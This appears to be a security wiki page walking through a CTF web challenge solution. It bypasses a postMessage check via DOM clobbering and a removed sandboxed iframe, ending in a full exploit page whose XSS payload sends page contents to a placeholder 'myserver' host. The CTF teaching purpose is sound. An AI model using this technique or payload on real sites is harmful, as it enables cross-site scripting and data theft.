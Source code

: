 # Bypassing SOP with Iframes - 2



## Iframes in SOP-2

In the [**solution**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) for this [**challenge**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic\_) proposes a similar method to the previous section. Let's check it.

In this challenge the attacker needs to **bypass** this:

```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```

If he does, he can send a **postmessage** with HTML content that is going to be written in the page with **`innerHTML`** without sanitation (**XSS**).

The way to bypass the **first check** is by making **`window.calc.contentWindow`** to **`undefined`** and **`e.source`** to **`null`**:

* **`window.calc.contentWindow`** is actually **`document.getElementById("calc")`**. You can clobber **`document.getElementById`** with **`<img name=getElementById />`** (note that Sanitizer API -[here](https://wicg.github.io/sanitizer-api/#dom-clobbering)- is not configured to protect against DOM clobbering attacks in its default state).
  * Therefore, you can clobber **`document.getElementById("calc")`** with **`<img name=getElementById /><div id=calc></div>`**. Then, **`window.calc`** will be **`undefined`**.
  * Now, we need **`e.source`** to be **`undefined`** or **`null`** (because `==` is used instead of `===`, **`null == undefined`** is **`True`**). Getting this is "easy". If you create an **iframe** and **send** a **postMessage** from it and immediately **remove** the iframe, **`e.origin`** is going to be **`null`**. Check the following code

```javascript
let iframe = document.createElement('iframe');
document.body.appendChild(iframe);
window.target = window.open("http://localhost:8080/");
await new Promise(r => setTimeout(r, 2000)); // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`);
document.body.removeChild(iframe); //e.origin === null
```

In order to bypass the **second check** about token is by sending **`token`** with value `null` and making **`window.token`** value **`undefined`**:

* Sending `token` in the postMessage with value `null` is trivial.
* **`window.token`** in calling the function **`getCookie`** which uses **`document.cookie`**. Note that any access to **`document.cookie`** in **`null`** origin pages tigger an **error**. This will make **`window.token`** have **`undefined`** value.

The final solution by [**@terjanq**](https://twitter.com/terjanq) is the [**following**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):

```html
<html>
    <body>
        <script>
            // Abuse "expr" param to cause a HTML injection and
            // clobber document.getElementById and make window.calc.contentWindow undefined
            open('https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"');
            
            function start(){
                var ifr = document.createElement('iframe');
                // Create a sandboxed iframe, as sandboxed iframes will have origin null
                // this null origin will document.cookie trigger an error and window.token will be undefined
                ifr.sandbox = 'allow-scripts allow-popups';
                ifr.srcdoc = `<script>(${hack})()<\/script>`
                
                document.body.appendChild(ifr);
                
                function hack(){
                    var win = open('https://obligatory-calc.ctf.sekai.team');
                    setTimeout(()=>{
                        parent.postMessage('remove', '*');
                        // this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
                        // token=null equals to undefined and e.source will be null so null == undefined
                        win.postMessage({token:null, result:"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>"}, '*');
                    },1000);
                }
                
                // this removes the iframe so e.source becomes null in postMessage event.
                onmessage = e=> {if(e.data == 'remove') document.body.innerHTML = ''; }
            }
            setTimeout(start, 1000);
        </script>
    </body>
</html>
```



